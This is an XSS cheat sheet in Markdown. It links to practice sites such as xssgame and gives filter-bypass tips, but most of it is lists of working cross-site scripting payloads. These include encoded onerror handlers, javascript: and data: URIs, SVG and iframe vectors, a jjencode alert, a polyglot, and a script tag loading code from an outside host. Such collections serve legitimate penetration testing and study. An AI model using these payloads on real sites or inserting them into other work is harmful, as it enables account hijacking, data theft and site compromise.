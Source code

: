 # XSS

[http://www.xssgame.com/](http://www.xssgame.com/) : [http://www.xssgame.com/wmOM2q5NJnZS](http://www.xssgame.com/wmOM2q5NJnZS)\
[https://xss.pwnfunction.com/](https://xss.pwnfunction.com/)\
[https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/](https://www.acunetix.com/blog/web-security-zone/test-xss-skills-vulnerable-sites/)\
[https://theswissbay.ch/pdf/Gentoomen%20Library/Security/Cross%20Site%20Scripting%20Attacks%20Xss%20Exploits%20and%20Defense.pdf](https://theswissbay.ch/pdf/Gentoomen%20Library/Security/Cross%20Site%20Scripting%20Attacks%20Xss%20Exploits%20and%20Defense.pdf)\


Check how values are sanitized by the server\
How many ways you can raise an error

```
http://www.xssgame.com/f/__58a1wgqGgI/confirm?next=javascript:a
```

Check which framework is used in UI baswd on that create payloads such as in angular to show alert you use interpolation;

## Xss filter bypass >\&lt;script\&gt;alert(1);\&lt;/script\&gt;

Some ideas:

1. Check if the encoding happens recursively. if you provide multiple '<', will they all be encoded?
2. Try different types of encoding (e.g. url encoding, double URL encoding) and see how the application treats them.
3. There are cases were the application normalizes Unicode characters (have a look here [Unicode Normalization Bypass](https://hackerone.com/reports/639684))

## Markdown XSS payload

[https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md](https://github.com/JakobTheDev/information-security/blob/master/Payloads/md/XSS.md)

## Error produce

"/\</script>



Alert(1) to win: [https://github.com/1bitrs/alert-1-to-win](https://github.com/1bitrs/alert-1-to-win)\
\
Payloads:\


```
Encoded Characters

<img src onerror=j&#97v&#97script&#x3A;&#97lert(1)>
<image src onerror=alert(8)>
<image/src/onerror=alert(8)>
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">
<img src="xss" onerror="eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 88, 83, 83, 39, 41))">
```

```
// Script
<script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>
<script src=//brutelogic.com.br/1.js> 

```

```
// href

<a href="javascript:alert('XSS')">Click me</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
```

```
// iframe
<iframe  src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;> 
<iframe src="javascript:alert('XSS')"></iframe>
<iframe/onload=&#97&#108&#101&#114&#116(1)>
```

```
// svg

<svg><script xlink:href=data:,alert(1) /> 
<svg/onload=alert(8)>
<svg onload="alert('XSS')"></svg>
```

```
// input

<input type="button" value="Click me" onclick="alert('XSS')">
```

```
// Framework expression

AngularJS {{alert('XSS')}}
```

```
// form

<form action="javascript:alert('XSS')">
    <input type="submit" value="Submit">
</form>

```

```
// JSON

<script>'({"userdata":"'|alert(1)//"})</script>
use pipe operator to neglect garbage

comment
//
<!--

```

```
// Special character JS, usefull once code is outside of console, or code

it is recommended to use jjencode, which can be done in 537 characters.

https://utf-8.jp/public/jjencode.html
```

```
// alert jjencode

");_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]](_[1]+_[2]+_[4]+_[38]+_[9]+'(1)')()//
```

```
// Some code

s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
<script> var email = ''|new Function`a${'alert'+String.fromCharCode`40`+1+String.fromCharCode`41`}`|''; </script>

[]["pop"]["constructor"]('alert(1)')()
"|[]["p\x6fp"]["c\x6fnstr\x75ct\x6fr"]('\x61l\x65rt(1)')()|"
"|[]["p\\x6fx6fp"]["c\\x6fx6fnstr\\x75x75ct\\x6fx6fr"]('\\x61x61l\\x65x65rt(1)')()|"

javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/\"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>

```

```
// Generate Error

"
\
</script>
```

## Tips

Code-split : | , ; , enter + code, +, -, /, , , %,^,&,\*, <, >

Break the code inside the quotation

```
<script>console.log("</script>")</script>

Depending on situation
```
